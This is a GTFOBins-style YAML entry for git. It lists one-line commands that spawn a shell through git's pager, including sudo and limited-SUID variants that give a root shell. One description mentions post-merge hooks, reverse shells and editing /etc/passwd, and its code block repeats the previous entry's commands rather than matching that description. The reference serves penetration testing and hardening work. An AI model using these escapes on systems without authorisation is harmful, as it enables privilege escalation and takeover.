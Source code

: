```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the `post-merge` git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to \: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access
      code: |
        sudo git branch --help config
        !/bin/sh
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

